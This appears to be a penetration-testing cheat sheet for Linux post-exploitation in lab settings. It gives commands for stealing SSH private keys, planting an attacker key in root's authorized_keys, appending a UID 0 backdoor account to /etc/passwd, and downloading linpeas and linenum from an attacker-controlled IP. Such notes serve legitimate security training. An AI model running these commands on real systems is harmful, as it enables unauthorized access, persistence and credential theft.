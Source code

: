 > Finally, let us discuss SSH keys. If we have read access over the .ssh directory for a specific user, we may read their private ssh keys found in /home/user/.ssh/id_rsa or /root/.ssh/id_rsa, and use it to log in to the server. If we can read the /root/.ssh/ directory and can read the id_rsa file, we can copy it to our machine and use the -i flag to log in with it:

```bash 
$ vim id_rsa
$ chmod 600 id_rsa
$ ssh root@10.10.10.10 -i id_rsa
```

> If we find ourselves with write access to a users`/.ssh/` directory, we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`. This technique is usually used to gain ssh access after gaining a shell as that user. We must first create a new key with `ssh-keygen` and the `-f` flag to specify the output file:

```bash
$ ssh-keygen -f key
```

> This will give us two files: `key` (which we will use with `ssh -i`) and `key.pub`, which we will copy to the remote machine. Let us copy `key.pub`, then on the remote machine, we will add it into `/root/.ssh/authorized_keys`:

```bash
$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
$ ssh root@10.10.10.10 -i key   # Log in as that user by using our private key
```



---
## Creating and writing account to /etc/passwd

```bash
$ openssl passwd -1 -salt bb pass123
$1$bb$W9A9S0PjWRE7zQKAB/ilZ.

$ echo "bb:$1$bb$W9A9S0PjWRE7zQKAB/ilZ.:0:0:root:/root:/bin/bash" >> /etc/passwd
# Had to nano /etc/passwd

```


---

## Transferring Files

```bash

$ python3 -m http.server 8000	                        # Start a local webserver
$ wget http://10.10.14.1:8000/linpeas.sh                # Download a file on the remote server
$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh  # Download a file on the remote server from our pc
$ scp linenum.sh user@remotehost:/tmp/linenum.sh	    # Transfer a file with scp (requires SSH access)
$ base64 shell -w 0	                                    # Convert a file to base64
$ echo f0VMR...SNIO...InmDwU | base64 -d > shell        # Convert a file from base64 back to its orig
$ file shell                                            # Validate file format   
$ md5sum shell	                                        # Check the file's md5sum 
```
